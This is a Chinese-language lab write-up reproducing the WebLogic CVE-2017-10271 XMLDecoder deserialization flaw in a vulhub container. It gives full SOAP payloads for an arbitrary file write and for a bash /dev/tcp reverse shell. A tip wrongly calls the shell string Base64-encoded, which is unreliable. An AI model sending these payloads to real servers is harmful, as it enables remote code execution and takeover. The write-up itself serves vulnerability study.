





# CVE-2017-10271 Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞

## Description

Weblogic 的 WLS Security 组件对外提供 webservice 服务，其中使用了 XMLDecoder 来解析用户传入的 XML 数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。CVE-2017-10271 是 wls wsat 模块的 RCE 漏洞，这个漏洞的核心就是 XMLDecoder 的反序列化漏洞，关于 XMLDecoder 反序列化的漏洞在2013年就被广泛传播，这次的漏洞是由于官方修复不完善导致被绕过。

## Explanation of exploit; PoC

### 运行靶场环境

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2017-10271
docker-compose up -d
```

访问 `http://your-ip:7001/wls-wsat/CoordinatorPortType`，看到如下页面即为靶场正常运行。



### 漏洞复现

#### 上传任意文件

访问 `http://your-ip:7001/wls-wsat/CoordinatorPortType`，并通过 BurpSuite 抓包，修改 `Content-Type` 为 `text/xml`，修改 `GET` 为 `POST`，请求体为如下 POC：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
         <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter">
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>TEST</string></void><void method="close"/>
                    </object>
            </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
</soapenv:Envelope>
```



发送请求后会在目标机器上创建一个 `test.txt` 文件，文件内容为 `TEST`。

访问 `http://your-ip:7001/wls-wsat/test.txt`，即可看到文件内容。



#### 反弹 Shell

在 kali 上监听 4444 端口

访问 `http://your-ip:7001/wls-wsat/CoordinatorPortType`，并通过 BurpSuite 抓包，修改 `Content-Type` 为 `text/xml`，修改 `GET` 为 `POST`，请求体为如下 POC：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
	<soapenv:Header>
		<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
			<java version="1.4.0" class="java.beans.XMLDecoder">
				<void class="java.lang.ProcessBuilder">
				<array class="java.lang.String" length="3">
					<void index="0">
						<string>/bin/bash</string>
					</void>
					<void index="1">
						<string>-c</string>
					</void>
					<void index="2">
						<string>bash -i &gt;&amp; /dev/tcp/192.168.10.20/4444 0&gt;&amp;1</string>
					</void>
				</array>
				<void method="start"/></void>
			</java>
		</work:WorkContext>
	</soapenv:Header>
	<soapenv:Body/>
</soapenv:Envelope>
```

???+ tip "编码问题"

	`bash -i &gt;&amp; /dev/tcp/192.168.10.20/4444 0&gt;&amp;1` 该反弹 Shell 语句为 Base64 编码后的内容。



请求发送后，kali 上会出现一个反弹 Shell。



## References

- [vulhub](https://vulhub.org/#/environments/weblogic/CVE-2017-10271/)
- [EXPLOIT-DB](https://www.exploit-db.com/exploits/43458)
- [Weblogic XMLDecoder RCE分析](https://paper.seebug.org/487/)
- [WebLogic WLS-WebServices组件反序列化漏洞分析](https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices%E7%BB%84%E4%BB%B6%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.md)